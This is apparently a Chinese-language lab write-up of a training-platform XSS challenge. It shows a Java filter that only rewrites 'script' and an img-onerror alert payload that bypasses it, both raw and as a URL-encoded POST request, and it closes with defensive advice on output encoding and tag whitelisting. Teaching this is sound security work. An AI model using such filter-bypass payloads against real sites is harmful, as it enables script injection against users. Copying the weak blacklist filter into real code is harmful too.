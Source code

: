 # Cross Site Scripting One(跨站脚本攻击 1)

## 题介绍
页面输入框已经对输入进行了一些过滤，需要利用输入框提交一个可以执行alert的代码

## 功能实现 
点击页面 获得该用户 按钮 
```
POST /challenges/d72ca2694422af2e6b3c5d90e4c11e7b4575a7bc12ee6d0a384ac2469449e8fa HTTP/1.1

searchTerm=%3CIMG+SRC%3D%22%23%22+ONERROR%3D%22alert('XSS')%22%2F%3E&csrfToken=-127827516577406622538923948450307535312
```

后端实现代码 src/main/java/servlets/module/challenge/XssChallengeOne.java

```
String searchTerm = request.getParameter("searchTerm");
log.debug("User Submitted - " + searchTerm);
searchTerm = XssFilter.levelOne(searchTerm);
log.debug("After Filtering - " + searchTerm);
String htmlOutput = new String();
if(FindXSS.search(searchTerm))
```
在一个题基础上增加了一个 XssFilter.levelOne(searchTerm); 过滤功能

```
public static String levelOne (String input)
{
	log.debug("Filtering input at XSS levelOne");
	return input.toLowerCase().replaceAll("script", "scr.pt").replaceAll("SCRIPT", "SCR.PT");
}
```
将script变成了 scr.pt 导致无法执行

## 解题步骤  
直接在输入框中输入  即可
```
<IMG SRC="#" ONERROR="alert('XSS')"/> 
```

## 总结  

如上题所述，解决xss问题是个复杂的过程，本题仅是禁止输入script标签，所以很容易被攻击者绕过


如果您的系统没有富文本(包含标签的用户提交，如<a 等),可以直接采用编码输出的方法，将<, > 等进行编码输出  
如果您的系统需要富文本，则只能在接收到用户提交内容时进行白名单标签校验  

这类攻击的防御是非常复杂的，原因是前端页面的输出点太多，如html、javascript、css等等，有些输入点完全不需要任何特殊字符，因此在做好基础防御(输入与验证和编码输出)基础上，也要针对特定场景进行特殊验证